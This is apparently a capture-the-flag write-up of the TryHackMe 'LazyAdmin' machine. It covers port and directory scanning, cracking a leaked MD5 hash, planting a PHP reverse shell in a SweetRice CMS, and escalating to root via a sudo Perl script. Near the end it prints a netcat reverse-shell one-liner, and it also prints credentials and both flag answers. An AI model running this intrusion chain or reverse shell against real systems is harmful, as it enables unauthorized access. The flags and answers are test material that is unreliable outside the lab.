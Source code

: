 ### Easy linux machine to practice your skills
Room: https://tryhackme.com/room/lazyadmin
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**gobuster** dir -u http:/xx.xx.xx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
/content              (Status: 301) [Size: 314] [--> http://xx.xx.xx.xxx/content/]
```

On the **/content** directory seems to be installed Sweet Rice CMS.   

**gobuster** dir -u http://xx.xx.xx.xxx/content --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
/images               (Status: 301) [Size: 321] [--> http://xx.xx.xx.xxx/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://xx.xx.xx.xxx/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://xx.xx.xx.xxx/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://xx.xx.xx.xxx/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://xx.xx.xx.xxx/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://xx.xx.xx.xxx/content/attachment/]
```

By going to http://xx.xx.xx.xxx/content/inc, we can find a directory called **mysql_backup** that happens to have a .sql file.  
Once we download and read that file, we have the following credentials  
> manager: 42f749ade7f9e195bf475f37a44cafcb

The hash is a MD5 and reveals the **Password123** password.  
With that, we're able to login on /content/as page.  

From here, we can edit pretty much any php page's code with a PHP reverse shell.  
I chose to create a 'test' ad page with a PHP reverse shell as the source code. The page was created at /content/ads/test.php  

On the listener terminal, we got a connection.  
```
listening on [any] 5555 ...
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xxx] 33004
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 21:06:32 up 29 min,  0 users,  load average: 0.00, 0.02, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

To spawn a bash shell, we can use ```python3 -c 'import pty; pty.spawn("/bin/bash")'```

**The first flag, located on /home/itguy/user.txt, is THM{63e5bce9271952aad1113b6f1ac28a07}** **[1]**.  

From that directory we get the mysql credentials as well.  
```
cat mysql_login.txt
rice:randompass
```

Checking **sudo -l**, we see that we can run the **backup.pl** script from /home/itguy directory.  

**cat backup.pl**
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

**cat /etc/copy.sh**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

It seems that it already has a reverse shell in this script. I just edited and placed my IP there.  
**sudo** /usr/bin/perl /home/itguy/backup.pl

On our second listener, we got a second shell. This time, under root privileges.  

**Second and final flag is at /root/root.txt and is THM{6637f41d0177b6f37cb20d775124699f}** **[2]**.  
